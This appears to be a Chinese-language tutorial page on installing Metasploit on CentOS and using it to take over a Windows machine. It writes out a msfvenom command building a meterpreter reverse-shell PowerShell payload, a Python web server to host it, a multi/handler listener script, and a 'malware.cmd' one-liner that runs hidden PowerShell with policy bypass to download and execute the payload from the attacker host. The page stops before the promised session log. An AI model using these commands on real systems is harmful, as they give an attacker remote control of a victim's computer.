

# Metasploit


{: .no_toc}

## 目录

{: .no_toc .text-delta }


1. TOC
{:toc}

## CentOS 安装 Metasploit

```shell
sudo yum install epel-release
sudo yum install snapd
sudo systemctl enable --now snapd.socket
sudo ln -s /var/lib/snapd/snap /snap
sudo snap install metasploit-framework


# 在 .bash_profile 中添加下列内容
PATH=$PATH:/var/lib/snapd/snap/bin/

# 运行下列命令
source .bash_profile
```


## Linux 上创建脚本

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.50.9 LPORT=443 -f psh -o rshell.ps1
```


```shell
python2 -m SimpleHTTPServer &
```


```shell
cat > PSListener.rc <<EOF
use multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp 
set LHOST 10.10.50.9
set LPORT 443
set ExitOnSession false
exploit -j
EOF
```


```shell
sudo msfconsole -n -q
msf5 > resource PSListener.rc
```

之后会监听 443：

```shell
[root@Docker-host metasploit]# netstat -ltnp | grep 443
tcp        0      0 10.10.50.9:443          0.0.0.0:*               LISTEN      2588/ruby
```


## Windows 执行


```shell
# 创建此文件 malware.cmd
powershell.exe -exec bypass -noexit -w hidden -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.50.9:8000/rshell.ps1')"
```


通过  cmd 执行：

```shell
malware.cmd
```

执行完成后再 msfconsole 中看到下列日志，标识反弹 shell 成功建立：


